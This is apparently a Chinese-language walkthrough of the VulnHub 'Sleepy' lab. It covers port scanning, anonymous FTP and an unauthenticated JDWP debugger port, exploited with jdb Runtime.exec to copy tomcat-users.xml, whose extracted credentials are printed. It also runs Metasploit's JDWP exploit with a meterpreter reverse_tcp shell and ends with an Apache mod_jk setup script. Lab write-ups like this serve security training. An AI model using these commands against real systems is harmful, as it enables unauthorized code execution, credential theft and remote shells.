




# DEVRANDOM: SLEEPY

> https://download.vulnhub.com/devrandom/sleepy.ova

靶场IP：`192.168.32.171`



扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p1-65535 192.168.32.171                                                                           1 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 03:42 EDT
Nmap scan report for 192.168.32.171
Host is up (0.00034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
8009/tcp open  ajp13
9001/tcp open  tor-orport
MAC Address: 00:0C:29:A4:5A:B7 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 105.90 seconds
                                                                         
```

FTP 启用了匿名访问



下载图片


未经身份验证的 JDWP 暴露：

```
/ # jdb -attach  192.168.32.171:9001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> threads
Group system:
  (java.lang.ref.Reference$ReferenceHandler)0x19d Reference Handler cond. waiting
  (java.lang.ref.Finalizer$FinalizerThread)0x19e  Finalizer         cond. waiting
  (java.lang.Thread)0x19f                         Signal Dispatcher running
Group main:
  (java.lang.Thread)0x1a1                         main              sleeping
> interrupt 0x1a1
> 
Exception occurred: java.lang.InterruptedException (uncaught)"thread=main", java.lang.Thread.sleep(), line=-1 bci=-1

main[1] print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine())
java.lang.NullPointerException
        at com.sun.tools.example.debug.expr.LValue.argumentsMatch(LValue.java:268)
        at com.sun.tools.example.debug.expr.LValue.resolveOverload(LValue.java:399)
        at com.sun.tools.example.debug.expr.LValue.makeNewObject(LValue.java:820)
        at com.sun.tools.example.debug.expr.ExpressionParser.AllocationExpression(ExpressionParser.java:1119)
        at com.sun.tools.example.debug.expr.ExpressionParser.PrimaryPrefix(ExpressionParser.java:961)
        at com.sun.tools.example.debug.expr.ExpressionParser.PrimaryExpression(ExpressionParser.java:909)
        at com.sun.tools.example.debug.expr.ExpressionParser.PostfixExpression(ExpressionParser.java:834)
        at com.sun.tools.example.debug.expr.ExpressionParser.UnaryExpressionNotPlusMinus(ExpressionParser.java:757)
        at com.sun.tools.example.debug.expr.ExpressionParser.UnaryExpression(ExpressionParser.java:687)
        at com.sun.tools.example.debug.expr.ExpressionParser.MultiplicativeExpression(ExpressionParser.java:611)
        at com.sun.tools.example.debug.expr.ExpressionParser.AdditiveExpression(ExpressionParser.java:580)
        at com.sun.tools.example.debug.expr.ExpressionParser.ShiftExpression(ExpressionParser.java:542)
        at com.sun.tools.example.debug.expr.ExpressionParser.RelationalExpression(ExpressionParser.java:504)
        at com.sun.tools.example.debug.expr.ExpressionParser.InstanceOfExpression(ExpressionParser.java:485)
        at com.sun.tools.example.debug.expr.ExpressionParser.EqualityExpression(ExpressionParser.java:455)
        at com.sun.tools.example.debug.expr.ExpressionParser.AndExpression(ExpressionParser.java:433)
        at com.sun.tools.example.debug.expr.ExpressionParser.ExclusiveOrExpression(ExpressionParser.java:412)
        at com.sun.tools.example.debug.expr.ExpressionParser.InclusiveOrExpression(ExpressionParser.java:391)
        at com.sun.tools.example.debug.expr.ExpressionParser.ConditionalAndExpression(ExpressionParser.java:370)
        at com.sun.tools.example.debug.expr.ExpressionParser.ConditionalOrExpression(ExpressionParser.java:349)
        at com.sun.tools.example.debug.expr.ExpressionParser.ConditionalExpression(ExpressionParser.java:321)
        at com.sun.tools.example.debug.expr.ExpressionParser.Expression(ExpressionParser.java:256)
        at com.sun.tools.example.debug.expr.ExpressionParser.evaluate(ExpressionParser.java:81)
        at com.sun.tools.example.debug.tty.Commands.evaluate(Commands.java:114)
        at com.sun.tools.example.debug.tty.Commands.doPrint(Commands.java:1654)
        at com.sun.tools.example.debug.tty.Commands$3.action(Commands.java:1680)
        at com.sun.tools.example.debug.tty.Commands$AsyncExecution$1.run(Commands.java:66)
 new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine()) = null
main[1] exit
```



上面的 Java 代码将`/etc/tomcat/tomcat-users.xml`文件复制到`/var/ftp/pub`. CentOS 上 pub ftp 的默认位置。

tomcat-users.xml 被下载到攻击机器，并提取了以下凭据：

```
<user username="sl33py" password="Gu3SSmYStR0NgPa$sw0rD!" roles="tomcat,manager-gui,admin-gui,admin,manager-jmx,admin-script,manager,manager-script,manager-status"/>
```



又或者使用msf

```
msf6 > search jdwp

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/misc/java_jdwp_debugger  2010-03-12       good  Yes    Java Debug Wire Protocol Remote Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/misc/java_jdwp_debugger

msf6 > use exploit/multi/misc/java_jdwp_debugger 
[*] No payload configured, defaulting to linux/aarch64/meterpreter/reverse_tcp

msf6 exploit(multi/misc/java_jdwp_debugger) > set rhost 192.168.32.171
rhost => 192.168.32.171
msf6 exploit(multi/misc/java_jdwp_debugger) > set rport 9001
rport => 9001
msf6 exploit(multi/misc/java_jdwp_debugger) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_jdwp_debugger) > set lhost 192.168.32.130
lhost => 192.168.32.130
msf6 exploit(multi/misc/java_jdwp_debugger) > check
[*] 192.168.32.171:9001 - The target appears to be vulnerable.
msf6 exploit(multi/misc/java_jdwp_debugger) > exploit 

[*] Started reverse TCP handler on 192.168.32.130:4444 
[*] 192.168.32.171:9001 - Retrieving the sizes of variable sized data types in the target VM...
[*] 192.168.32.171:9001 - Getting the version of the target VM...
[*] 192.168.32.171:9001 - Getting all currently loaded classes by the target VM...
[*] 192.168.32.171:9001 - Getting all running threads in the target VM...
[*] 192.168.32.171:9001 - Setting 'step into' event...
[*] 192.168.32.171:9001 - Resuming VM and waiting for an event...
[*] 192.168.32.171:9001 - Received 1 responses that are not a 'step into' event...
[*] 192.168.32.171:9001 - Deleting step event...
[*] 192.168.32.171:9001 - Disabling security manager if set...
[+] 192.168.32.171:9001 - Security manager was not set
[*] 192.168.32.171:9001 - Dropping and executing payload...
[*] Sending stage (980808 bytes) to 192.168.32.171
[*] Meterpreter session 1 opened (192.168.32.130:4444 -> 192.168.32.171:53047) at 2022-07-14 04:23:15 -0400
[!] 192.168.32.171:9001 - This exploit may require manual cleanup of '/tmp/h9dD' on the target

meterpreter > 
[+] 192.168.32.171:9001 - Deleted /tmp/h9dD

```


```
#!/bin/bash
apt-get install libapache2-mod-jk -y
sed -i 's#JkWorkersFile /etc/libapache2-mod-jk/workers.properties#JkWorkersFile /etc/apache2/workers.properties#g' /etc/apache2/mods-enabled/jk.conf
cp /etc/libapache2-mod-jk/workers.properties /etc/apache2/
sed -i 's#worker.ajp13_worker.host=localhost#worker.ajp13_worker.host=192.168.30.146#g' /etc/apache2/workers.properties
sed  '/\Host\>/i JKMount /* ajp13_worker' /etc/apache2/sites-enabled/000-default.conf
a2enmod proxy_http proxy_ajp
service apache2 restart
```

